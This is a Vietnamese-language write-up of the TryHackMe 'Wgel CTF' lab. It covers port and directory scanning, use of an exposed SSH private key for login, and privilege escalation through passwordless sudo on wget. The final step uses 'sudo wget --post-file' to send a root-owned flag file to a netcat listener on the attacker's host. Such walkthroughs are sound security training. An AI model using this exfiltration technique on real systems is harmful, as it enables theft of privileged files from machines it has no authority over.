

# [THM] Wgel CTF write-up

- IP: 10.10.131.127

## Recon

Sử dụng nmap để dò quét các cổng và dịch vụ đang mở
> nmap -sT -sV -sC -T4 10.10.131.127

Có 2 port dịch vụ đang mở bao gồm
- Port 22 chạy dịch vụ SSH
- Port 80 chạy dịch vụ HTTP 

Giao diện web 

Tiếp tục scan bằng công cụ fuff để tìm thư mục ẩn 
> ffuf -u "http://10.10.131.127/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/big.txt

Sau khi khám phá `/sitemap` và dường như không thấy thông tin gì hữu ích nên tiếp tục dò quét xem sau `/sitemap` còn thư mục ẩn nào hữu ích không.

Ta thấy có điều đặc biệt là thư mục .ssh cùng kiểm tra xem có gì không nhé
Đây là thứ chúng ta tìm kiếm được trong thư mục đó

Khi đã có file ssh key thì ta cần tìm kiếm user name để kết nối ssh. Điều đặc biệt đã tìm kiếm được ở source code của default page

Sử dụng username tìm được trong source code và ssh key để ssh và đã truy cập được shell của user

## user.txt
Sử dụng câu lệnh dưới để tìm kiếm file flag
> find . -name *flag*

## Privilege Escalation
Ta nhận thấy user hiện tại có thể thực thi `/usr/bin/wget` với quyền root mà không cần mật khẩu vậy nên ta sẽ tận dụng nó để leo thang đặc quyền

Cần setup **netcat listener** để lắng nghe trên máy kali 
> nc -lvnp 1234

## root.txt
Sau đó sử dụng wget chạy câu lệnh `sudo /usr/bin/wget --post-file=/root/root_flag.txt http://10.21.113.26:1234` để có thể lấy được root flag với đường dẫn có thể dự đoán tương tự như user_flag.txt
